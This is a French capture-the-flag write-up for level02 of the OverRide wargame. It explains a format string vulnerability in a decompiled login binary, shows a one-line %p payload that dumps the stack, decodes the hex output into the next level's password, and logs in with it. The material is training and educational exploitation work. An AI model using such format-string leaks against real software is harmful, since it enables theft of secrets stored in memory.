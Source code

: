 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1002(level02) gid=1002(level02) groups=1002(level02),100(users)
/home/users/level02
total 21
dr-xr-x---+ 1 level02 level02   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level02 level02  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level02 level02 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
-rw-r--r--+ 1 level02 level02   41 Oct 19  2016 .pass
-rw-r--r--  1 level02 level02  675 Sep 10  2016 .profile
```

Je trouve un binaire `level02`, que je tente d'éxecuter :

```bash
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: dab
--[ Password: bad
*****************************************
dab does not have access!
```

Je tente de décompiler le binaire avec [Dogbolt](hhttps://dogbolt.org/?id=60c28629-ef06-4d6a-aa25-bf54ea99c497#Hex-Rays=28) :

```c
int main(int argc, const char **argv)
{
  char password[100]; // [rsp+10h] [rbp-110h] BYREF
  char flag[41]; // [rsp+80h] [rbp-A0h] BYREF
  char user_name[100]; // [rsp+B0h] [rbp-70h] BYREF
  int pass_len; // [rsp+114h] [rbp-Ch]
  FILE *stream; // [rsp+118h] [rbp-8h]

  memset(user_name, 0, 100);
  memset(ptr, 0, 41);
  memset(password, 0, 100);

  stream = 0;
  pass_len = 0;

  stream = fopen("/home/users/level03/.pass", "r");

  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
    exit(1);
  }

  pass_len = fread(flag, 1, 41, stream);

  flag[strcspn(flag, "\n")] = 0;

  if ( pass_len != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    exit(1);
  }

  fclose(stream);

  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");

  printf("--[ Username: ");
  fgets(user_name, 100, stdin);
  user_name[strcspn(user_name, "\n")] = 0;

  printf("--[ Password: ");
  fgets(password, 100, stdin);
  password[strcspn(password, "\n")] = 0;

  puts("*****************************************");

  if ( strncmp(flag, password, 41) )
  {
    printf(user_name);
    puts(" does not have access!");
    exit(1);
  }

  printf("Greetings, %s!\n", user_name);
  system("/bin/sh");

  return 0;
}
```

Comme précédemment dans `Rainfall`, il est ici question d'exploiter le `printf(user_name)`. En effet, `printf` sans argument et qui lit le user input est un exploit qu'on appelle "[format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack)".

Ici, il pourrait s'agir d'utiliser cet exploit afin de lire la valeur de la variable "flag" puisqu'elle contient le password et qu'elle est dans la stack.

Je ne peux pas utiliser de `break` dans `gdb` pour investiguer où se trouve la valeur de `flag` dans la stack car `gdb` n'a pas les droits de lire le fichier `.pass` et je ne peux donc pas `run` ce binaire.

Je vais donc "bruteforcer" la lecture de la stack au travers d'un petit script python :

```bash
$ python -c 'print("%p " * 100)'| ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe500 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) ->[0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d]<- (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

J'ai autant d'adresse si je tente avec 200, je peux donc raisonnablement imaginer que j'ai imprimé toute la stack.

Je tente une conversion HEX -> ASCII des adresses les plus suspicieuse (que j'ai mis entre crochet) :

```bash
0x756e505234376848 -> Hh74RPnu
0x45414a3561733951 -> Q9sa5JAE
0x377a7143574e6758 -> XgNWCqz7
0x354a35686e475873 -> sXGnh5J5
0x48336750664b394d -> M9KfPg3H
```

Cela ressemble donc fort à un mot de passe, je le tente : 

```bash
$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

level03@OverRide:~$
```